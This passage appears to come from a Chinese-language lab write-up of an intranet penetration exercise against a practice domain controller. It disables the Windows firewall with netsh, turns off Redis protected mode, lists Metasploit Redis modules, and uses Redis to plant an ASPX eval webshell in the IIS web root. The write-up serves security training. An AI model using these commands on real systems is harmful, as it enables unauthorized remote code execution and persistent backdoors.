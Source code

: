 关闭防火墙
```bash
netsh advfirewall set allprofiles state off
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210607152103712.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM4NjI2MDQz,size_16,color_FFFFFF,t_70#pic_center)

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210607152041958.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM4NjI2MDQz,size_16,color_FFFFFF,t_70#pic_center)





#### redis getshell
redis 其实是有问题的
官方描述中有提到 redis ，但是默认是访问不了的，实在没找到其它思路，只得修改redis零时配置文件

```bash
127.0.0.1:6379> config set protected-mode no
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210607165246875.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM4NjI2MDQz,size_16,color_FFFFFF,t_70#pic_center)

msf相关redis模块

```bash
auxiliary/scanner/redis/file_upload 
auxiliary/scanner/redis/redis_login
auxiliary/scanner/redis/redis_server
```


![在这里插入图片描述](https://img-blog.csdnimg.cn/20210607165447229.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM4NjI2MDQz,size_16,color_FFFFFF,t_70#pic_center)
138域控靶机上开放了80，通过前面的路由，已经可以直接访问了




![在这里插入图片描述](https://img-blog.csdnimg.cn/2021060717014548.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM4NjI2MDQz,size_16,color_FFFFFF,t_70#pic_center)

通过 redis 往物理路径写 webshell
此时redis只需要目录写权限
但是在不知道物理路径的情况下，比较困难

```bash
192.168.52.138:6379> config set dir C:\inetpub\wwwroot\
OK
192.168.52.138:6379> config set dbfilename shell.aspx
OK
192.168.52.138:6379> set x "<% @Page Language='Jscript'%><%eval(Request.Item['pwd'],'unsafe');%>"
OK
192.168.52.138:6379> save
OK
192.168.52.138:6379>
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210607173527553.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM4NjI2MDQz,size_16,color_FFFFFF,t_70#pic_center)

